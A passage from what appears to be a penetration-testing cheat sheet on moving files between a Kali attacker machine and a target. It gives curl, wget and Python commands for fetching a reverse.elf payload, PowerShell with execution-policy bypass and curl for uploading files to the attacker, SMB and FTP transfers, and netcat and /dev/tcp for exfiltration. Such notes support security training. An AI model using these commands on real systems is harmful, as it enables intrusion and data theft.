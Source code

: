 Linux:

|   |   |
|---|---|
|cURL|`curl -O http://$KALI/reverse.elf`|
|Wget|`wget http://$KALI/reverse.elf`|
|Python|Create `download.py`:<br>`import urllib.request`<br>`urllib.request.urlretrieve('http://$KALI/reverse.elf', 'reverse.elf')`<br>Run `download.py`:<br>`python3 download.py`|

#### Upload

<details><summary>Apache2 setup:</summary></details>

|   |   |
|---|---|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).UploadFile('http://$KALI/upload.php','$FILENAME')`|
|cURL|`curl -H 'Content-Type:multipart/form-data' -X POST -F file=@"$FILENAME" -v http://$KALI/upload.php`|

### 5.2. SMB

<details><summary>Samba setup:</summary></details>

|   |   |
|---|---|
|Download|`copy \\$KALI\public\$FILENAME .\`|
|Upload|`copy "$FILENAME" \\$KALI\public\`|

### 5.3. FTP

<details><summary>FTP anonymous setup:</summary></details>

```cmd
ftp -A $KALI
ftp> get $FILENAME
```

### 5.4. Netcat

Likely used for scenario to upload a file from target:
- Kali listens with `nc`
- Target doesn't have `curl`, `wget`, `scp`, `ftp`, etc

|   |   |
|---|---|
|Kali|`nc -nvlp 4444 -q 1 > <file> < /dev/null`|
|Target|`cat <file> \| nc <kali-ip> 4444`<br>or<br>`cat test.txt > /dev/tcp/<kali-ip>/4444`|

## 6. [Port forwarding](/notes/port-forwarding.md)

### 6.1. SSH port forwarding
